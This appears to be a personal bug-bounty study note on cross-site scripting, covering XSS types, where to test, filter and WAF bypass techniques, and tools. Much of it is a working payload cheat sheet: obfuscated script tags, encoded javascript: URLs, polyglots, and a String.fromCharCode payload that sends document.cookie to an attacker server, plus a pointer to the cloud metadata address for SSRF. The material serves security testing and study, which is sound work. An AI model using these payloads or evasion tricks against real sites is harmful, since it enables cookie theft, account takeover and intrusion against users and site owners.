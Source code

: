 > [!NOTE] note that
> - no clear cut to pass WAF, figuring out what works and doesn’t [Awesome-WAF](https://github.com/0xInfection/Awesome-WAF),[XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet) [[Bypass WAF]]
> - finding XSS mean that this site’s security is bad so we can find more [meta-data](http://169.254.169.254/latest/meta-data) [[SSRF]]
> - if u can't then try [[HTML injection]]
### Types and pref

#### Reflected XSS
> Reflected XSS vulnerabilities happen when user input is returned to the user without being stored in a database. The application takes in user input, processes it server-side, and immediately returns it to the user
#### Stored XSS
> when user input is stored on a server and retrieved unsafely
##### blind XSS 
> Blind XSS vulnerabilities are stored XSS vulnerabilities whose malicious input is stored by the server and executed in another part of the application or in another application that you cannot see. These XSS flaws are harder to detect, since you can’t find them by looking for reflected input Often, blind XSS can be used to attack administrators.
 
> use payload from [xsshunter](https://xsshunter.com/features) ,or [knoxss.me](http://knoxss.me/), monitor logs and wait :)
#### DOM XSS
> DOM-based XSS is similar to reflected XSS, except that in DOM-based XSS, the user input never leaves the user’s browser. In DOM-based XSS, the application takes in user input, processes it on the victim’s browser, and then returns it to the user.
> 	 - JavaScript libraries like **jQuery** are prone to DOM-based XSS
> 	 - when ever u see **URL fragments**
##### Self-XSS
> Self-XSS attacks require victims to input a malicious payload themselves. To perform these, attackers must trick users into doing much more than simply viewing a page or browsing to a particular URL.
> 	In bug bounties, self-XSS bugs are not usually accepted as valid submissions because they require social engineering
> 	to get high impact use it with other vuln: [uber-turning-self-xss-into-good-xss](https://whitton.io/articles/uber-turning-self-xss-into-good-xss/)

### where to find
1. test every parameter that reflected in the page, even drop down values, and multi select
2. inject 'devMRT' then use [Ctrl+f] to find where string get reflected
3. >'<"//:=;!--. Take note of which ones the application escapes and which get rendered directly
4. for DOM:
	> figure out where user input (source such `document.*`, and `location.*`) is being used in the application. If the source is being paced to a dangerous sink you could have XSS.
1. common endpoints:
	1. forms, search boxes, and name and username fields in sign-ups.
	2. "/upload_profile_pic?url=IMAGE_URL" => `data:text/html,<scrip...`
2. common parameters: 
	1. "q", "s", "search", "id", "lang", "keyword", "query", "page", "keywords", "year", "view", "email", "type", "name", "p", "month", "image", "list_type", "url", "terms", "categoryid", "key", "l", "begindate", "enddate"
> after send the payload be sure to view the page source and confirm whether your payloads are being rendered in HTML or JavaScript tags.

> for stored XSS make sure u visit each location your payload rendered at 

> When sites sanitize user input by modifying it instead of encoding or escaping values, you should continue testing the site’s server-side logic. start asking "what if" and let the site answer

> try to find alternative input method for XSS payload like JSON
> remember to use iframe with `src=javascript:alert(document.domain)`
### Process for testing for XSS & filtering:
1. find if there are any allowed tags <img>, `<h1>` ,`<table>`, `<u>`. 
2. reflected in encoding format then try:  `&it;` or `%3C`,or double encoding `%253C` and `%26lt;` [more encoding](https://d3adend.org/xss/ghettoBypass)
3. try to include script from out source: `<script src=//mysite.com?c=`
4. or add some encoded chars: `<%00iframe`, `on%0derror` `<%00h2` , `%0d`, `%0a`, `%09`
5. `string.fromCharCode()` ex
	```js
	<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT> => "http://attacker_server_ip/?c="
   ```
   use on of following to get ascii code for your payload:
   1. https://js.do/
   2.  js code
	```js
	<script>
		function ascii(c){ return c.charCodeAt(); }
		encoded = "INPUT_STRING".split("").map(ascii);
		document.write(encoded);
	</script>
	```
[OWASP’s XSS filter evasion cheat sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
###### stop if: not matter what you try you always see `&lt;script&gt;` or `%3Cscript%3E`

### payloads
`</script/x>`, `<ScRipt>` 
no space⇒ `<svg/onload=alert()>` 
`<iframe src="<http://colabrator>">`,`<iframe src=javascript:alert(1)>`
`"><img img src=x onerror=prompt(1);>`
`<a onmouseover"alert(1)">test</a>`
<svg/onload=prompt{`document.cookie`}> 
also u can use **_the optional chaining operator_** `?.` :
	`alert?.('Hello, World!');`
	`const obj = { showAlert: alert }; obj.showAlert?.call(window, 'Hello, World!');`
	`const obj = { nested: { showAlert: alert } }; obj.nested?.showAlert?.call(window, 'Hello, World!');`
URLs: 
```urls
javascript%0a:\\u0061lert(origin)
javascript%0a:alert(origin)
java%0d%0ascript%0d%0a:alert(0)
j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0`
java%09scrip%07t:prompt`0` jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript pjavascriptt:confirm`0`
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+
data:text/html,<script>alert(0)</script>
<dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>`
<inpuT autofocus oNFocus="setTimeout(function){/*\*/top['al'+\u0065'+'rt'](1)/*\*/}，5000);"></inpuT%3E；
<Img+Src=javascript:alert(1)+OnError=location=src>
```

###### XSS polyglot
> a type of XSS payload that executes in multiple contexts. it will execute XSS regardless of whether it is inserted into an `<img>` `<script>` , `<a>` or `<p>`
> https://polyglot.innerht.ml/: 
```js
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert())//%0D%0A%0d%0a//<stYle/<tiTle/</teXtarEa/</ScRiPt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
### fuzzing
> automatically test a site for already-known XSS vectors is through fuzzing
``` js
GET /search?q=FUZZ 
Host: example.com 

POST /send_email 
Host: example.com
..........
user_id=abc&title=FUZZ&body=FUZZ
```
use payload lists:
[portswigger cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet/)
[Payload Box XSS payload list](https://github.com/payloadbox/ xss-payload-list)
Wfuzz wordlist
[NetSec.expert XSS payloads](https://netsec.expert/posts/xss-in-2020)

> [!NOTE] Title
> In some situations, the URL won’t match the origin. For example, about:blank and javascript: schemes inherit the origin of the document opening them. The about:blank context accesses information from or interacts with the browser, whereas javascript: executes JavaScript. The URL doesn’t provide information about its origin, so browsers handle these two contexts differently. When you find an XSS vulnerability, using alert(document.domain) in your proof of concept is helpful: it confirms the origin where the XSS executes, especially when the URL shown in the browser is different from the origin the XSS executes against. This is exactly what happens when a website opens a javascript: URL. If www..com opened a javascript:alert(document.domain) URL, the browser address would show javascript:alert(document.domain). But the alert box would show www..com because the alert inherits the origin of the previous document.

more at: file:///F:/Courses/02-cyber%20security/4-%20offensive%20security/PDFs/Offensive%20Security%20AWAE%20WEB-300%20OSWE.pdf page:344

### XSS Auditors
Browsers, try to prevent reflect and stored XSS by introducing *XSS Auditors*, here's how to bypass 
- [Browser's-XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)
- https://blog.innerht.ml/the-misunderstood-x-xss-protection/
- https://hahwul.com/cullinan/xss/




file:///F:/Courses/02-cyber%20security/6-%20bug%20bounty/BugBountyBooks/Real-World%20Bug%20Hunting%20-%20A%20Field%20Guide%20to%20Web%20Hacking%20by%20Peter%20Yaworski.pdf => 108 
### tools
XSStrick  , Axiom

#### fresh writeups
skii.dev/rook-to-xss/ 
